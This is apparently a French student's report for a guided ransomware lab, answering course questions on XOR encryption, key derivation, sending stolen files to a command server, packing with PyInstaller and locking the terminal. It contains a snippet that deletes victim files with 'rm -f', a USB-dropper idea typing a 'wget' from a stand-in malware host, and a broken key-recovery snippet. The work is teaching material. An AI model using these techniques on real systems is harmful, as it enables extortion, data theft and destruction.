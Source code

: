 # Antoine Goulin - TP Ransomware

## Introduction

Ce devoir consiste en la fabrication guidée d'un ransomware. Les fonctionnalités seront détaillées dans les paragraphes suivants. S'y ajouteront des notes complémentaires sur ce que j'aurais voulu ajouter, en eus-je pris le temps plus tôt. 
À l'instar des commentaires présents dans les autres documents de ce dépôt, tous on été écrits en anglais par souci d'homogénéité et de cohérence.

## Corps du ransomware

### Chiffrement

**Q1** : L'algorithme est le chiffrement XOR. Il est peu robuste car les bits de sa clé sont répétés de manière cyclique. Cependant, même sans une clé cyclique, l'opération mathématique du XOR est extrêmement simple donc il est possible de trouver la clé de chiffrement si l'on dispose d'un fichier clair et de sa version chiffrée (ce que des backups permettent inmanquablement).
Il serait plus efficace d'utiliser un chiffrement robuste, comme les variantes de l'AES pour s'assurer que personne ne puisse retrouver ses données sans notre intervention mais je ne suis pas allé jusque là dans les démarches détaillées dans [bonus chiffrement](#amélioration-du-chiffrement)

**Q2** : Utiliser un HMAC permettrait de s'assurer qu'un message est authentique mais ne suffirait pas à garantir la sécurité du chiffrement du fichier (sans compter la non-robustesse du XOR). Hacher la clé et le sel ensemble brouillerait beaucoup moins la clé dans le token généré. De plus, la clé de chiffrement n'étant pas stockée dans l'ordinateur de la victime, il serait difficile de s'assurer que la clé saisie par cette dernière est authentique (à moins bien sûr de la récupérer depuis le CNC, la rendant interceptible pendant l'échange). Ainsi, il est préférable de dériver la clé et le sel pour que le lien token-clé soit plus difficile à établir pour la vicitme (qui connaît déjà potentiellement le token et le sel)

### Setup

**Q3** : Il est préférable de vérifier qu'un token n'est pas déjà sauvegardé pour ne pas le remplacer par un autre token, ce qui aurait pour effet de rendre le déchiffrement impossible (impossible d'associer la clé saisie par l'utilisateur à un jeton authentique).

### Vérification de l'authenticité de la clé

**Q4** : pour vérifier que la clé est bonne, il suffit de calculer un token candidat en dérivant la clé saisie et le sel authentique puis de comparer ce jeton au jeton authentique. Si les deux jetons sont les mêmes, alors la clé saisie est correcte. 

## Bonus

### Vol de fichiers

**B1** : Pour voler les fichiers, on peut lire les données de chaque fichier chiffré, les convertir en base 64 et les récupérer sur le CNC. De plus amples explications sont données dans les commentaires du code de la fonction leak_files. J'ai décidé de transmettre les données dans un JSON mais il est possible de les envoyer octet par octet dans un flux continu pour chaque fichier.
J'ai fait le choix d'envoyer les fichiers après leur chiffrement puisque le serveur CNC dispose de tous les éléments nécessaires pour les déchiffrer. D'autant plus que les données envoyées en clair seraient perceptibles dans l'absolu (bien que la victime n'en aie pas le temps dans notre situation).
Enfin, en ajoutant les lignes suivantes, il serait simple de supprimer les fichers de la victime de son ordinateur, en espérant qu'elle n'ait pas fait de sauvegarde intégrale de son ordinateur. 
```py
# soit files_to_encrypt la liste des fichiers trouvés par le ransomware, à chiffrer
for file_to_delete in files_to_encrypt:
    os.system(f"rm -f {file_to_delete}")
```

Il me semble pertinent de préciser que pendant mes test, j'ai remarqué que les fichiers provenant du répertoire `/etc` étaient protégés, même pour l'utilisateur root (du moins avec les scripts que j'ai écrits), ce que montrait mon incapacité à chiffrer `/etc/X11/rgb.txt`.

### Amélioration du chiffrement

**B2** : La clé utilisée pour le XOR étant cyclique, il est possible de connaître la clé en compaprant un fichier sain avec un fichier chiffré. 
Donnée ^ Clé = Chiffré ; Chiffré ^ Clé = Donnée
Data ^ Chiffré = Clé
Ainsi, un script permettant de trouver la clé du chiffrement serait aussi simple que :
```py
with open(clear_file as c):
    clear_data = c.read()
with open(encrypted_data as e):
    encrypted_data = e.read()
key = clear_data ^ encrypted_data

logging.info(key)
```

**B3** : La bibliothèque cryptography nous offre d'autres options de chiffrement. La plus simple et sécurisée d'entre elles (pour un développeur junior comme nous) est le module Fernet, qui permet de chiffrer symétriquement et retourne un token unique permettant de vérifier l'authenticité du message.
Malgré leur plus grande sensibilité, il est également possible d'utiliser les fonctions comme AESxxx de cryptography.hazmat pour un contrôle plus fin des paramètres cryptographiques.

### Packer

**B4** : avec PyInstaller, il faut utiliser la commande `pyinstaller source/ransomware.py --onefile` depuis notre ordinateur ou `pyinsatller root/ransomware/ransomware.py --onefile` depuis le container (ce que je devais faire pour des raisons de compatibilité, _I use Arch, btw..._)

**B5** : le binaire créé se trouve dans dist/, monté dans root/bin dans le container

### Dropper

Je n'ai pas pris le temps de travailler sur un dropper depuis le CNC mais je souhaite mentionner un usage différent. Il peut être intéressant de songer à l'utilisation d'un _Rubber Ducky_ pour déposer le ransomware sur l'ordinateur d'une victime au sein d'une entreprise. Bien que dans notre cas, cette solution puisse surtout servir à la première entrée dans le système d'une grande structure, nous servant ensuite de levier pour nous infiltrer numériquement, la simplicité d'une clé USB malveillante que l'un des employés trouverait sur le pare-brise de sa voiture ou à un autre endroit inattendu serait dévastatrice.

Pour tester ce genre de méthode, il est possible de se servir de la clé Digispark (ATtiny85 embarqué sur une clé USB), capable de se faire passer pour un clavier et de saisir les touches suffisantes pour ouvrir un terminal et y inscrire `wget https://bonpetitmalware.com/ransomwarepaspiquedeshannetons` en moins de trente secondes.

### Messages de pression

#### Bloquer le terminal

J'aimerais noter ici que, pour bloquer le terminal, il faut au moins capturer les signaux `SIGINT` (interruption précipitée d'un service en cours d'éxecution, déclenchée par la combinaison Ctrl + C) et `SIGTERM` (indication au programme qu'il doit s'arrêter) et indiquer au malware de les ignorer (ce qui se fait au tout début du programme). Il est impossible d'ignorer le signal `SIGKILL`, dont l'effet est d'arrêter un programme de force. Cependant, cela ne suffit pas à ignorer le Ctrl + D, qui abrège l'exécution du programme en lui indiquant qu'il a atteint la dernière ligne de son script. Pour pallier ce problème, il est possible de traiter l'exception du `EOFError` avec un try/except et d'indiquer que si l'exception se produit, on relance la fonction en cours (dans une boucle while par exemple - avec l'instruction continue).